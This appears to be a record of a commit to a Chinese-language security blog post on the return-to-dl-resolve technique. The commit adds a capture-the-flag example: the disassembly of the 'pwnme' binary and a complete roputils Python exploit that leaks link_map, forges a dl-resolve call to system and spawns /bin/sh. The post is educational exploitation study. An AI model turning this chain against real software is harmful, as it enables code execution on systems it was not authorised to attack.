

Before and after one commit to rk700/rk700.github.io, a Jekyll site: the page built from _posts/2015-08-09-return-to-dl-resolve.md, in a window 1280 px wide and 1400 px high, scrolled down 7084 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 7971 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add example for return to dl-resolve

```diff
--- a/_posts/2015-08-09-return-to-dl-resolve.md
+++ b/_posts/2015-08-09-return-to-dl-resolve.md
@@ -426,6 +426,88 @@ EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow
 
 这里的`r10`保存的便是`link_map`的地址，所以只需`QWORD PTR [r10+0x1c8]`处为`NULL`即可跳过这一段。这便是roputils中这一操作的由来。
 
+## 实例
+
+这里选取的是去年ISG初赛的pwnme。这是一道漏洞很明显，但利用起来较复杂的题目。二进制文件基本信息如下：
+
+{% highlight bash %}
+$ checksec --file pwnme
+RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
+Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   pwnme
+{% endhighlight %}
+
+主函数内即存在溢出，具体汇编代码如下：
+
+{% highlight bash %}
+...
+  4005bd:       55                      push   %rbp
+  4005be:       48 89 e5                mov    %rsp,%rbp
+  4005c1:       48 83 ec 10             sub    $0x10,%rsp
+  4005c5:       bf 3c 00 00 00          mov    $0x3c,%edi
+  4005ca:       e8 c1 fe ff ff          callq  400490 <alarm@plt>
+  4005cf:       ba 13 00 00 00          mov    $0x13,%edx
+  4005d4:       be 84 06 40 00          mov    $0x400684,%esi
+  4005d9:       bf 01 00 00 00          mov    $0x1,%edi
+  4005de:       e8 9d fe ff ff          callq  400480 <write@plt>
+  4005e3:       48 8d 45 f0             lea    -0x10(%rbp),%rax
+  4005e7:       ba 00 01 00 00          mov    $0x100,%edx
+  4005ec:       48 89 c6                mov    %rax,%rsi
+  4005ef:       bf 00 00 00 00          mov    $0x0,%edi
+  4005f4:       e8 a7 fe ff ff          callq  4004a0 <read@plt>
+  4005f9:       b8 00 00 00 00          mov    $0x0,%eax
+  4005fe:       c9                      leaveq
+  4005ff:       c3                      retq
+...
+{% endhighlight %}
+
+可以看到，这里有调用`read`和`write`，可供我们读写内存。但由于二进制文件本身较简略，构造ROP chain比较有技术含量。我们队当时并没有做出来这道题，赛后看writeup，大多是利用ROP来mem leak，读取足够的内存后构造出`execve`得到shell。
+
+但是，如果使用return to dl-resolve技术，利用roputils，则可以1分钟之内傻瓜式解决……我就只是把roputils自带的examples中的`dl-resolve-x86-64.py`稍作修改即完成。改后的代码如下：
+
+{% highlight python %}
+#!/usr/bin/env python2
+
+from roputils import *
+
+fpath = sys.argv[1]
+offset = 0x18
+
+rop = ROP(fpath)
+addr_stage = rop.section('.bss') + 0x400
+ptr_ret = rop.search(rop.section('.fini'))
+
+buf = rop.retfill(offset)
+buf += rop.call_chain_ptr(
+    ['write', 1, rop.got()+8, 8],
+    ['read', 0, addr_stage, 420]
+, pivot=addr_stage)
+buf += rop.fill(0x100, buf)
+
+p = Proc(rop.fpath)
+p.write(buf)
+p.read(0x13)
+addr_link_map = p.read_p64()
+print("link_map is at %s" % hex(addr_link_map))
+addr_dt_debug = addr_link_map + 0x1c8
+
+buf = rop.call_chain_ptr(
+    ['read', 0, addr_dt_debug, 8],
+    [ptr_ret, addr_stage+400]
+)
+buf += rop.dl_resolve_call(addr_stage+300)
+buf += rop.fill(300, buf)
+buf += rop.dl_resolve_data(addr_stage+300, 'system')
+buf += rop.fill(400, buf)
+buf += rop.string('/bin/sh')
+buf += rop.fill(420, buf)
+
+p.write(buf)
+p.write_p64(0)
+p.interact(0)
+{% endhighlight %}
+
+确实相比mem leak构造ROP，简洁太多了……
+
 ## 总结
 
 之前，我的ROP方式，基本都是通过mem leak，读`.got.plt`，找到`system`的地址并调用；极少数情况下，无法mem leak，则是完全根据已有的gadget拼出ROP cain（见[http://rk700.github.io/writeup/2014/11/14/unexploitable/](http://rk700.github.io/writeup/2014/11/14/unexploitable/)）。现在，有了return to dl-resolve，就添加了一种思路。当然，对于64位，这种技术依然需要有读、写内存的gadgets。从理论上讲，有了这些gadgets, mem leak去找`system`的地址应该也可以。但相对来说，return to dl-resolve显得简洁、优雅一些。现在64位return to dl-resolve需要读内存，是为了找到`link_map+0x1c8`的地址以便写入。如果能够继续研究出不需要读内存的方法，则面对当下主流的64位NX, ASLR，return to dl-resolve的可适性会更加高。希望感兴趣的小伙伴可以一同讨论研究，完善这一技术。
```
